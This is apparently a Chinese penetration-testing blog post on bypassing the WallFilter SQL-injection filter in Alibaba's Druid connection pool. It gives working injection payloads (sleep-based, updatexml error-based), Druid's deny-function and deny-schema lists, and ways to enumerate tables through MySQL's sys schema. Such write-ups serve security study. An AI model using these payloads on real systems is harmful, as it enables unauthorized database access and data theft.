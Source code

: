 ```yaml
---
title: Druid WallFilter 绕过浅析
date: 2023-03-09 15:50:00
categories: Pentest
tags: [SQL, Bypass]
---
```

## 简介
> 之前挖洞的时候遇到了一个 SQL 注入，测试时可以看到回显的 SQL 语句，但是一直被拦截，搜索了下发现是 WallFilter

WallFilter 是阿里巴巴的[数据库连接池Druid](https://github.com/alibaba/druid)中一个特殊的 Filter，主要功能是用于监控 SQL 安全，并基于 SQL 语法进行分析，理解其中的 SQL 语义，然后作出智能准确的处理，从而避免 SQL 注入。

## 拦截1
首次尝试注入，Payload 如下：

```sql
desc,(select/**/*/**/from/**/(select(sleep(5)))a)#

```

抛出异常：`sql injection violation, comment not allow`

![Druid-WallFilter-0](assets/Druid-WallFilter-0.png)


原因是 WallFilter 的默认拦截策略是**不允许 SQL 中带有注释**，而这里的 Payload 明显含有注释，因此被拦截。参考：[alibaba/druid - WallFilter拦截规则](https://github.com/alibaba/druid/wiki/WallFilter-%E6%8B%A6%E6%88%AA%E8%A7%84%E5%88%99)

## 拦截2
再次尝试注入，修改后的 Payload 如下：

```sql
and(updatexml(1,concat(0x7e,(select database())),0));

and(updatexml(1,concat(0x7e,(select user())),0))

```

这次的报错为：`sql injection violation, syntax error`

![Druid-WallFilter-1](assets/Druid-WallFilter-1.png)

![Druid-WallFilter-2](assets/Druid-WallFilter-2.png)

原因是默认配置下，WallFilter 拦截了如下函数和关键字：

- [Druid拦截功能的配置与简单绕过](https://mp.weixin.qq.com/s/lGalf63VXCva2I5BpmSMgQ)
- ~~[alibaba/druid/wall](https://github.com/alibaba/druid/tree/master/src/main/resources/META-INF/druid/wall)~~
- [alibaba/druid/wall](https://github.com/alibaba/druid/blob/master/core/src/main/resources/META-INF/druid/wall/mysql/deny-function.txt)

```basic
deny-function:
  version
  load_file
  database
  schema
  user
  system_user
  session_user
  benchmark
  current_user
  sleep
  xmltype
  receive_message

deny-schema:
  information_schema
  mysql
  performance_schema    

deny-variant:
  basedir
  version_compile_os
  version
  datadir

```

## 其它查询
尝试查询其它的变量

```sql
SHOW GLOBAL VARIABLES;               # 查看全局变量
SHOW GLOBAL VARIABLES like '%xxx%';  # 模糊查询全局变量
SELECT @@global.变量名;               # 查看指定全局变量的值

SHOW VARIABLES;                      # 查看用户变量
SHOW VARIABLES like '%xxx%';         # 模糊查询用户变量
SELECT @@变量名;                      # 查看指定用户变量的值

```
这里查几个变量，发现可以成功查询，Payload如下：

```sql
and(updatexml(1,concat(0x7e,(select current_user)),0))
and(updatexml(1,concat(0x7e,(select @@plugin_dir)),0))

```

![Druid-WallFilter-3](assets/Druid-WallFilter-3.png)

![Druid-WallFilter-4](assets/Druid-WallFilter-4.png)

## 尝试绕过
前面得知禁用了`information_schema`，这里利用`MySQL5.6+`的`sys`系统库中的某些表来尝试绕过。

- [mysql注入绕过information_schema过滤](https://blog.csdn.net/m0_49835838/article/details/109159839)
- [SQL注入-查表查列](https://blog.csdn.net/soldi_er/article/details/116901009)
- [Bugku sql注入 基于布尔的SQL盲注](https://blog.csdn.net/plant1234/article/details/118033711)

```sql
mysql> use sys
mysql> show tables

# 默认sys库中，保存库名和表名的信息的表
sys.schema_table_statistics_with_buffer
sys.schema_index_statistics
sys.schema_table_statistics
sys.schema_auto_increment_columns 
sys.x$schema_index_statistics
sys.x$schema_table_statistics
sys.x$schema_table_statistics_with_buffer

# 示例查询,其中table_schema为库名, table_name为表名
mysql> select table_schema, table_name from sys.schema_table_statistics_with_buffer;

# 其它目前可记录的表
mysql> select * from sys.version;
mysql> select object_schema from sys.innodb_buffer_stats_by_schema;
mysql> select object_schema, object_name from sys.innodb_buffer_stats_by_table;

# MySQL默认存储引擎innoDB携带的表, 两表均有database_name和table_name字段
mysql.innodb_table_stats
mysql.innodb_index_stats


```
测试之后发现报错：`SELECT command denied ...`，原因是**当前用户权限不足**所导致。

如果数据库当前用户为`root`或者其它具有对应权限的用户时，利用这个办法进行绕过是可行的

![Druid-WallFilter-5](assets/Druid-WallFilter-5.png)
